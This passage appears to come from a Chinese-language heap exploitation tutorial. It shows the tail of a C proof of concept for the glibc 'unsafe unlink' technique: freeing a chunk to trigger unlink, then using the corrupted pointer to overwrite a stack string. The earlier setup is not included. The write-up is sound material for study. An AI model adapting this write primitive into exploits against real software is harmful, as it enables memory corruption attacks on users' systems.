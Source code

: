 ```c

    /*  int *t[10], i;                  //tcache
        for(i=0; i<7; i++){
            t[i] = malloc(0x80);
        }
        for(i=0;i<7;i++){
            free(t[i]);
        };  */

    free(chunk1_ptr);               //unlink

    char victim_string[8] = "AAAAAAA";
    chunk0_ptr[3] = (uint64_t) victim_string;   //overwrite itself
    fprintf(stderr, "old value: %s\n", victim_string);

    chunk0_ptr[0] = 0x42424242424242LL;     //over wirting victim_string
    fprintf(stderr, "new Value: %s\n", victim_string);

}
```

#### 示例图
